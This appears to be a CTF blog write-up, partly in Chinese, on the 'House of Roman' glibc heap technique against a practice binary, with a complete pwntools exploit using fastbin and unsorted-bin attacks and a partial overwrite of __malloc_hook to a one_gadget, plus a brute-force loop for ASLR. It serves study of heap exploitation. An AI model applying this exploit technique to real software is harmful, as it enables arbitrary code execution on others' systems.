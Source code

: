 ```yaml
---
title: House-of-Roman
date: 2019-03-02 22:17:25
tags: pwn heap
layout: post
---
```

House of Roman

<!--more-->

# start
House of Roman
主要是利用了 &main_arena+0x58 和一些 one_gadget位置接近只要partial write 就可以不需要leak.
* UAF
* control size(any_size_malloc ||off by one || overflow)
* no leak

mainly:
fast bin atk
unsorted bin atk
partial write

从经典的一个题目讲起

[new_chall][1]

#  Analysis
* Noleak
* malloc 任意大小chunk
* 可以覆盖next_chunk_size
```arm
read(0, heap_ptrs[v1], v2 + 1);
```
* UAF
```arm
if ( v0 <= 19 )
    free(heap_ptrs[v0]);
```

# 思路
* fastbin atk to control malloc_hook
* unsorted bin to make malloc_hook=&main_arena+0x58
* partial write malloc_hook to one_gadget
* use printerr to make esp+0x50=0 to get shell
# EXP
```python
from pwn import *
#context.log_level="debug"
def cmd(c):
	p.sendlineafter("3. Free\n",str(c))
def malloc(size,idx):
	cmd(1)
	p.sendlineafter("Enter size of chunk :",str(size))
	p.sendlineafter("Enter index :",str(idx))
def free(idx):
	cmd(3)
	p.sendlineafter("Enter index :",str(idx))
def edit(idx,c):
	cmd(2)
	p.sendlineafter("Enter index of chunk :",str(idx))
	p.sendafter("Enter data :",c)
p=process("./new_chall")

p.readuntil("Enter name :")
p.sendline("nier")
#fastbin atk to control __malloc_hook
malloc(0x140,0)
malloc(0x18,1)#
free(0)
malloc(0x68,2)
malloc(0x68,3)
malloc(0x68,4)
free(3)
free(4)
edit(4,"\x00")
edit(0,"\xed\x1a")
malloc(0x68,6)
malloc(0x68,7)
malloc(0x68,8)#control malloc__hook

#fixfastbin
free(7)
edit(7,p64(0))
#unsorted bin to make malloc_hook=&main_arena+0x58
malloc(0x58,10)
malloc(0x88,11)
malloc(0x88,12)
free(11)
edit(11,p64(0xdeadbeef)+'\x00')
malloc(0x88,13)
#partial write malloc_hook to one_gadget
edit(8,p64(0xdeadbeefdeadbeef)+"AAA"+p64(0xdddddddddddddfdd)+"\xa4\xd2\xaf")
#use printerr to make esp+0x50=0 to get shell
free(12)
free(12)
#over
try:
	p.interactive(">")
except:
	p.close()
```
12bit burp:1/2^12 
```sh
#bin/bash
for i in `seq 1 5000`; do python exp.py; done;
```


[1]:https://github.com/n132/banana/tree/master/Pwn/heap_trick/house%20of%20X/house%20of%20roman